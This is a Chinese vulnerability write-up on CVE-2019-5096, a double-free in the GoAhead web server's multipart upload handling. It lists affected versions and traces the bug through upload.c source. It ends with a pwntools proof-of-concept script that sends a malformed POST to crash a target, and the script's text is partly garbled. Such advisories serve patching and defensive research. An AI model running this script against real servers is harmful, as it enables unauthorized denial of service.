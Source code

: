 ```yaml
---
title: "（CVE-2019-5096） GoAhead远程代码溢出漏洞"
id: zhfly2958
---
```


# （CVE-2019-5096） GoAhead 远程代码溢出漏洞

## 一、漏洞简介

GoAhead Web服务器最近被曝光在版本v5.0.1，v.4.1.1和v3.6.5中存在一个可利用的代码执行漏洞，漏洞存在http请求的multi-part/form-data字段处理中，若是发送畸形的HTTP请求，可导致GoAhead Web服务器在处理此请求期间触发double-free漏洞。 该畸形请求可以未经身份验证的GET或POST请求形式发送，并且请求的服务器上不需要存在web页面。

## 二、漏洞影响

v5.0.1，v.4.1.1和v3.6.5

## 三、复现过程

### 漏洞分析

漏洞曝光者给出了触发漏洞的源码：

```
/ src/upload.c /
66 static void freeUploadFile(WebsUpload *up)
67 {
68 if (up) {
69 if (up->filename) { // BUG: First UAF here
70 unlink(up->filename); // BUG: UAF/unlink - probably not a good idea
71 wfree(up->filename); // BUG: Double free here
72 }
73
74 wfree(up->clientFilename);
75 wfree(up->contentType);
76 wfree(up);
77 }
78 } 
```

经过笔者的分析发现，freeUploadFile（）函数会在/src/upload.c的websFreeUpload（）函数中调用，而websFreeUpload（）函数会在/src/http.c中调用，/src/http.c中termWebs（）函数会调用websFreeUpload（）函数，/src/http.c中reuseConn（）函数会调用termWebs（）函数，从中可以看出漏洞触发函数freeUploadFile（）的调用过程。

在函数freeUploadFile（）的调用过程中，查看源码可发现有两行如下代码：

```
/ src/upload.c /
255 freeUploadFile(wp->currentFile);
256 file = wp->currentFile = walloc(sizeof(WebsUpload)); 
```

在此处变量 wp->currentFile会被free一次，但是被free的变量wp->currentFile在代码：

```
/ src/upload.c /
371 hashEnter(wp->files, wp->uploadVar, valueSymbol(file), 0);
372 defineUploadVars(wp); 
```

在此处代码中把变量wp->currentFile加入了一个数组中，该数组中的变量在接下来的代码中会被free一次，free代码如下：

```
/ src/upload.c /
86 for (s = hashFirst(wp->files); s; s = hashNext(wp->files, s)) {
87 up = s->content.value.symbol;
88 freeUploadFile(up); 
```

变量wp->currentFile再次被free之后，导致了double-free漏洞触发，是fastbin double free，利用方法和思路已经很成熟。

### poc

> https://github.com/ianxtianxt/CVE-2019-5096-GoAhead-Web-Server-Dos-Exploit

```
from pwn import *
import time
import sys
r = remote(sys.argv[1],8080)
rn = b"\r\n"

payload=b’’

payload +=b"–siiit"+rn

payload +=b"Content-Disposition: form-data; name=“shit1”; filename=“shit.file”;"+rn

payload+= rn

payload+=b"HelloWorld!"+rn

payload +=b"–siiit"+rn

payload +=b"Content-Disposition: form-data;  name=“shit2”; filename=“shit2.file”"+rn

payload+= rn

payload+=b"FuckkWorld!"+rn

payload +=b"–siiit"+rn

data = b"POST / HTTP/1.1\r\nHost:HelloWorld:8080\r\n"

data +=b"content-type:multipart/form-data"+rn

data +=b"content-type:boundary=siiit"+rn

data +=b"content-length:"+str(len(payload)).encode()+rn

data +=b"cookie:"+b’a’*0x1+rn

data +=rn

data +=payload `r.send(data)

sleep(20)

try:

dat=r.recvn(1024)

print(dat)

r.close()

except:

r.close()` 
```